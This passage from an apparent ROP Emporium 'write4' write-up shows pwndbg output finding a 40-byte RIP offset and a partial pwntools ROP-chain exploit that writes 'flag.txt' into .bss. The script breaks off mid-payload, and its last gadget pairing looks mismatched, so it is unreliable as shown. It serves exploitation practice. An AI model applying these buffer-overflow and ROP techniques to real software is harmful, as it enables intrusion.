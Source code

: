 ```asm
00:0000│ rsp 0x7fffffffdb28 ◂— 0x6161616161616166 ('faaaaaaa')
01:0008│     0x7fffffffdb30 ◂— 0x6161616161616167 ('gaaaaaaa')
02:0010│     0x7fffffffdb38 ◂— 0x7f0a61616168
03:0018│     0x7fffffffdb40 —▸ 0x7fffffffdc30 —▸ 0x7fffffffdc38 ◂— 0x38 /* '8' */
04:0020│     0x7fffffffdb48 —▸ 0x400607 (main) ◂— push rbp
05:0028│     0x7fffffffdb50 ◂— 0x100400040 /* '@' */
06:0030│     0x7fffffffdb58 —▸ 0x7fffffffdc48 —▸ 0x7fffffffded0 ◂— '/home/vein/sec/rop_emporium/write4/write4'
07:0038│     0x7fffffffdb60 —▸ 0x7fffffffdc48 —▸ 0x7fffffffded0 ◂— '/home/vein/sec/rop_emporium/write4/write4'
────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────
 ► 0   0x7ffff7c00942 pwnme+152
   1 0x6161616161616166
   2 0x6161616161616167
   3   0x7f0a61616168
   4   0x7fffffffdc30
   5         0x400607 main
──────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

So the the offset to RIP is 40 bytes and now we can procced to our final payload.

Here my exploit script:
```python
#!/usr/bin/env python3
from pwn import *
  
elf = context.binary = ELF('./write4', checksec=False)
p = process()
#p = gdb.debug(elf.path, gdbscript='''break main, c''')
context.log_level = 'debug'
  
padding = b'a' * 40
  
# usefulGadgets
mov_r14_r15 = p64(0x400628)      # mov QWORD PTR [r14],r15
pop_r14_pop_r15 = p64(0x400690)  # pop r14; pop r15; ret;
pop_rdi = p64(0x400693)          # pop rdi; ret;
pop_r15 = p64(0x400692)          # pop r15; ret;

# useful ELF sections
bss_addr = p64(elf.bss())
# .data section works also
#data_addr = p64(0x0000000000601028) # .data addr

# print_file()
print_file = p64(elf.sym.print_file)

# first we want to mov string "flag.txt" into .bss section
# to be able to call it later as a parameter to the the print_file 
# function then we overflow the buffer with 40 bytes to redirect 
# program execution to print_file
payload =  padding
payload += pop_r14_pop_r15
payload += bss_addr
payload += b'flag.txt'

payload += mov_r14_r15
payload += pop_r15
payload += bss_addr

```